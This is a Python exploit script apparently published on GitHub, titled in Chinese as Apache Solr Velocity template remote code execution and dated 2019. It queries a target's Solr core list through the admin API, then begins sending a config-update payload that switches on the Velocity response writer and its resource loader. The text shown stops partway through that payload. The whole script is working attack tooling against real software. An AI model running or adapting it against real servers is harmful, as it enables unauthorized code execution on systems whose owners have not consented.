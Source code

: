 
    #coding=utf-8

    import requests
    import sys
    import json

    banner = '''
                                _             _____       _        _____   _____ ______ 
         /\                    | |           / ____|     | |      |  __ \ / ____|  ____|
        /  \   _ __   __ _  ___| |__   ___  | (___   ___ | |_ __  | |__) | |    | |__   
       / /\ \ | '_ \ / _` |/ __| '_ \ / _ \  \___ \ / _ \| | '__| |  _  /| |    |  __|  
      / ____ \| |_) | (_| | (__| | | |  __/  ____) | (_) | | |    | | \ \| |____| |____ 
     /_/    \_\ .__/ \__,_|\___|_| |_|\___| |_____/ \___/|_|_|    |_|  \_\\_____|______|
              | |                                                                       
              |_|                                                                       
                       Apache Solr Velocity模板远程代码执行
                             2019-10-30  17:30
                             python By Jas502n
    >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
    '''
    print banner

    def get_code_name(url):
        if url[-1] == '/':
            url = url[:-1].split('\n')[0]
        else:
            url = url.split('\n')[0]
            
        core_url = url + '/solr/admin/cores?indexInfo=false&wt=json'
        print '[+] Querying Core Name: '+core_url,'\n'
        proxies = {"http":"http://127.0.0.1:8080"}
        try:
            # r = requests.get(core_url,proxies=proxies)
            r = requests.get(core_url)
            if r.status_code == 200 and 'responseHeader' in r.content and 'status' in r.content:
                json_str = json.loads(r.content)
                for i in json_str['status']:
                    core_name_url = url + '/solr/' + i + '/config'
                    print core_name_url
                    update_queryresponsewriter(core_name_url)
            else:
                print "No core name exit!"
        except:
            pass
    def update_queryresponsewriter(core_name_url):
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/json',
        'Content-Length': '259',
        'Connection': 'close'
        }
        payload = '''
        {
          "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solrresource.loader.enabled": "true",
